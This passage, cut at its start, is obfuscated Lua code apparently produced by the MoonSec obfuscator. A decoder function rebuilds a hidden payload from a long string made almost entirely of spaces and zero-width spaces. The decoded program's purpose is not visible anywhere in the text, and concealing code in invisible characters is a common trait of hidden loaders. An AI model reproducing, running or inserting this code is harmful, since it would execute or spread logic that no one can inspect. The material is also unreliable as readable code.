 <d+x do l.v[o]=a:sub(e,(function()e=r+e return e-x end)())o=o+n if o%t==L then o=j A(l.j,(Y((l[l.v[j]]*p)+l[l.v[n]])))end end return N(l.j)end)("..:::MoonSec::..                ​  ​     ​     ​            ​                                  ​   ​             ​                                                                           ​  ​       ​               ​                                          ​                               ​     ​    ​  ​                                                                           ​   ​  ​            ​  ​           ​             ​                                             ​    ​​          ​            ​                       ​                              ​      ​                                                                            ​      ​     ​                         ​                                      ​                        ​            ​ ​                                    ​                         ​  ​       ​                                         ​                                     ​    ​  ​      ​                                                                     ​      ​      ​     ​  ​                                                  ​      ​         ​                                                                                     ​    ​​           ​                       ​                                        ​    ​                            ​                                ​          ​           ​     ​​           ​               ​                           ​            ​      ​      ​​                                   ​                                       ​  ​      ​    ​                                                                      ​  ​   ​​    ​                                               ​         ​                 ​      ​         ​                                   ​                                         ​​                                 ​                                     ​    ​      ​                      ​                                         ​                                    ​                                         ​  ​                  ​​          ​​                                       ​  ​   ​                   ​  ​  ​     ​                        ​                                                     ​      ​                                                                                 ​     ​                                             ​                         ​      ​     ​​                                     ​                                  ​    ​      ​                      ​                                       ​          ​     ​     ​                                                                    ​           ​                                             ​                                    ​   ​        ​                       ​                                        ​      ​       ​                                                         ​              ​                                                                ​                                            ​              ​                                    ​     ​                            ​​                                ​                 ​     ​                    ​              ​                                        ​      ​             ​              ​​      ​                           ​               ​                     ​             ​                                        ​  ​                        ​       ​ ​                 ​            ​     ​            ​        ​​            ​        ​         ​ ​              ​            ​          ​       ​     ​                            ​                                                 ​           ​     ​         ​                ​                        ​                         ​           ​   ​                                                           ​             ​      ​     ​    ​                          ​                                                                                                                      ​       ​            ​           ​                         ​ ​           ​                 ​                ​                                            ​                               ​​         ​    ​                    ​             ​        ​  ​                                           ​                                   ​        ​      ​     ​  ​           ​             ​                         ​                  ​          ​​           ​                      ​      ​               ​         ​           ​      ​                  ​                         ​​                                                          ​                 ​                               ​                         ​                                                      ​     ​                                   ​                      ​                                ​​                            ​   ​             ​                  ​                     ​                                                                ​           ​                                                         ​                                        ​          ​ ​                              ​                               ​     ​      ​                              ​                                     ​     ​                       ​           ​                                                                       ​      ​                                                  ​ ​                      ​    ​                                          ​              ​                          ​                               ​                            ​          ​                                  ​​                                   ​                 ​      ​